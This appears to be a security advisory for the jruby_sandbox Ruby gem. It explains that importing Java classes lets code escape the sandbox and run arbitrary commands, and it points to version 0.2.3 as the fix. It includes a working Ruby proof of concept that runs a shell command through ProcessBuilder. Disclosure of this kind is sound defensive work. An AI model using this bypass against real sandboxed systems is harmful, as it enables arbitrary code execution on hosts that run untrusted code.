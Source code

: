 ## Overview
[`jruby_sandbox`](https://rubygems.org/gems/jruby_sandbox) is a version of `_why's Freaky Freaky Sandbox` for JRuby.
Affected versions of this gem are vulnerable to sandbox bypassing for arbitrary code execution while importing Java classes.

## Details
`jruby_sandbox` aims to allow safe execution of user given Ruby code within a JRuby [0] runtime. However via import of Java classes it is possible to circumvent those protections and execute arbitrary code outside the sandboxed environment.

**Example:**
```ruby
require 'sandbox'
sand = Sandbox.safe
sand.activate!

begin
  sand.eval("print `id`")
rescue Exception => e
  puts "fail via Ruby ;)"
end
puts "Now for some Java"

sand.eval("Kernel.send :java_import, 'java.lang.ProcessBuilder'")
sand.eval("Kernel.send :java_import, 'java.util.Scanner'")
sand.eval("s = Java::java.util.Scanner.new( " +
          "Java::java.lang.ProcessBuilder.new('sh','-c','id')" +
          ".start.getInputStream  ).useDelimiter(\"\x00\").next")
sand.eval("print s")
```

## Remediation
Upgrade to version `>= 0.2.3` or greater.

## References
- http://rubysec.com/advisories/OSVDB-106279
- http://www.phenoelit.org/stuff/jruby-sandbox.txt

